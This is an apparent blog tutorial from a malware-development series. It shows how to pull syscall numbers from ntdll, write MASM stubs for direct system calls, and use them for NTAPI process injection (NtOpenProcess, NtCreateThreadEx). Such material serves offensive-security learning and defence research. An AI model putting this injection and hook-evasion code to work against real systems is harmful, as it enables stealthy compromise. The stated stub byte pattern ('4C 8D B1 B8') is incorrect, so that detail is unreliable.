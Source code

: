 ```yaml
---
description: Finally I talk about sys calls :)
---
```


# Direct System Call

## Introduction

Understanding this flow is crucial when dealing with system calls, as they serve as the gateway between user-mode applications and the underlying Windows kernel. As you know, the workings of Windows API functions follow a layered approach, where calls to functions like `OpenProcess` in `kernel32.dll` are redirected to `kernelbase.dll`, which then invokes the corresponding NTAPI function—such as `NtOpenProcess` in `ntdll.dll` which leads to a system call (`syscall`), transitioning execution into kernel mode where the actual operation is performed.

So why bother with the stupid high level stuff , when we can directly do a syscall is what some _gato_ thought.

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p><em>What if I just syscall directly ?</em></p></figcaption></figure>

### Theory

Okay so I have given a brief in [this post](https://reze.gitbook.io/bin/winternal/system-calls), but to just give a gist of it, each system call is basically just a number called SSN (system service number) which is what the NTAPI passes to kernel mode where a table SSDT is used to look up for the correct function (SSR) for that SSN and it gets called to then the result being sent back to user mode. We don't need to dive deep into this for now. We can see a pattern in most of the NTAPI functions which would look similar to this

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

```nasm
mov r10, rcx
mov eax, [ssn]
test byte ptr ds:[addr], 1
jne there ----+
syscall       |
ret           |
int 2E  <-----+
ret
```

So the first thing it does is to save the value in `rcx` register to `r10`. This is required because, in x64 syscall convention, `rcx` is not preserved across the `syscall` instruction, so Windows stores it in `r10` for safe access. Then it moves the **SSN** to eax and does a test on a kernel variable, this is done in order to check if the system is x64 / x86 and based on that, the particular syscall is done (Older systems used `int 0x2E` for syscall) and the execution is passed to kernel mode.

### Direct System Calls

Okay so as we know that to invoke a syscall, an SSN is really important, so we would have to get the SSN for the NT functions we want to use. This can easily be done by getting the address of that NT function inside NTDLL. Since we know that every function starts with the `4C 8D B1 B8` hex, we can use this to our advantage and get the **SSN** for our function.  After which is just the same thing , setting up arguments & invoking the syscall.&#x20;

<pre class="language-c"><code class="lang-c">DWORD get_sysn(HMODULE ntHandle, LPCSTR fnName) {

    DWORD               ssn = 0;
    UINT_PTR    NtfnAddress = NULL;

    NtfnAddress = GetProcAddress(ntHandle, fnName);
    if ((PVOID)NtfnAddress == NULL) {
        warn("Resource Locator Failed with  @-->0x%d", GetLastError());
        return 0;
    }

    ssn = (DWORD)((PBYTE)(NtfnAddress + 0x4))[0];
    return ssn;
}

<strong>DWORD    dwNtOpenProcess = get_sysn(ntdllModule, "NtOpenProcess");
</strong>DWORD    dwNtAllocateVirtualMemory = get_sysn(ntdllModule, "NtAllocateVirtualMemory");
....
</code></pre>

Since we know what the first 4 bytes would be , we can directly skip through them and get the first byte after it (look at the pic ) which would be our SSN for the particular function. Also since the compiler doesn't know about these functions, we would have to tell it to look for it externally and write an assembly code with the same thing. I have created a [helper.h](https://github.com/ZzN1NJ4/Malware-Development/blob/main/isystemcalls/helper.h) and included every thing in it, like the structures / function prototypes etc, which are required.

{% code title="helper.h" %}
```c
extern NTSTATUS NtOpenProcess(
    OUT PHANDLE ProcessHandle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes,
    IN PCLIENT_ID ClientId OPTIONAL
);
```
{% endcode %}

Then we also have to create an assembly file and link it with our project so that the compiler knows where to look for those functions.&#x20;

{% code title="sys.asm" %}
```nasm
.data
EXTERN dwNtOpenProcess:DWORD;
EXTERN dwNtAllocateVirtualMemory:DWORD;

.code
NtOpenProcess PROC
                mov r10, rcx
                mov eax, dwNtOpenProcess
                syscall
                ret
NtOpenProcess ENDP

NtAllocateVirtualMemory PROC
                mov r10, rcx
                mov eax, dwNtAllocateVirtualMemory
                syscall
                ret
NtAllocateVirtualMemory ENDP
....
END
```
{% endcode %}

after we have written our asm file, we would have to link it with our project , to do that right click on the project in solution explorer and add a build dependency -> masm. Then just make sure that the file sys.asm is being included in the build and is also of type "Microsoft Macro Assembler" (right click on file name -> properties)

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Alright, now we have setup the assembly to run, all that's left is just the same NTAPI process injection. I dont want to fill this blog with a long code of me doing the same thing again so if you want to see it, you can check out the code in [my github](https://github.com/ZzN1NJ4/Malware-Development/blob/main/isystemcalls/main.c). Here's a snippet (as you can see this is very similar to the NTAPI implementation)

```c
STATUS = NtOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &OA, &CID);
if (STATUS != STATUS_SUCCESS) {
    warn("NtOpenProcess failed with  @-->%d || STATUS @--0x%x", GetLastError(), STATUS);
    goto deadend;
}
....
STATUS = NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, rBuffer, NULL, FALSE, 0, 0, 0, NULL);
....
STATUS = NtWaitForSingleObject(hThread, FALSE, NULL);

```

### Explanation

What happens here is that we first get the **SSN** of the functions and save it to respective variables. Then we use those same variable in the assembly file and once again use the `extern` keyword in the assembly so that the compiler knows to look for it in an external source (which is our C file).&#x20;

When we call the `NtOpenProcess` function, the compiler starts looking for it outside since we have defined it with the `extern` keyword and finds it in the assembly file and then invokes that function.

## References

* [https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls](https://redops.at/en/blog/direct-syscalls-vs-indirect-syscalls)
* [https://medium.com/@amitmoshel70/intro-to-syscalls-windows-internals-for-malware-development-pt-2-b8d88bb10eb9](https://medium.com/@amitmoshel70/intro-to-syscalls-windows-internals-for-malware-development-pt-2-b8d88bb10eb9)

